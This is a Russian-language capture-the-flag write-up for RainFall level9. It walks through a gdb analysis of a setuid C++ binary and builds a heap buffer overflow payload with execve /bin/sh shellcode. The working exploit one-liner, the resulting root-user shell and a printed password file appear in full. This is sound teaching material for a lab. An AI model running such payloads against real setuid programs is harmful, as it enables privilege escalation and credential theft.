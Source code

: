 # Level9

Мы можем найти исполняемый файл, который еще ничего не делает
```
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 bla
level9@RainFall:~$ ./level9 bla bla
```
Проанализировав это с помощью gdb, мы можем найти 5 интересных функций:
- N::N(int)
- N::setAnnotation(char*)
- N::operator+(N&)
- N::operator-(N&)
- main
  

  Этот двоичный файл написан на плюсах, и здесь нет вызовов `/ bin / sh`, мы можем предположить, что на этот раз нам придется использовать shell.  
  Мы должны использовать `memcpy ()` в argv [1] в `setAnnotation ()`, чтобы вызвать `edx` шеллкод. По сути, это переполнение буфера.  
  Прежде всего, найти смещение:
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```

Благодаря генератору паттернов мы обнаружили, что смещение eax начинается с 108.  
Теперь у нас есть смещение, и мы можем построить нашу полезную нагрузку.
Для этого мы должны найти начальный адрес нашего буфера и заменить на него значение `esp + 0x10`, чтобы вызов` edx` вызывал наш шеллкод. Но поскольку нам нужно дважды разыменовать, как мы хотим получить доступ к классу N, наш адрес возврата должен указывать на адрес, который указывает на начальный буфер:
  
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // buffer address
```
Значение [esp + 0x10] будет заменено на 0x804a00c.  
Поскольку нам нужно снова разыменовать, этот адрес будет указывать на начало нашего шелл-кода: 0x804a00x + 4 = 0x804a010.
```
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4
```
Наш последний эксплойт будет выглядеть так:
- python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ exit
level9@RainFall:~$ su bonus0
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$
```
# ╮(￣_￣)╭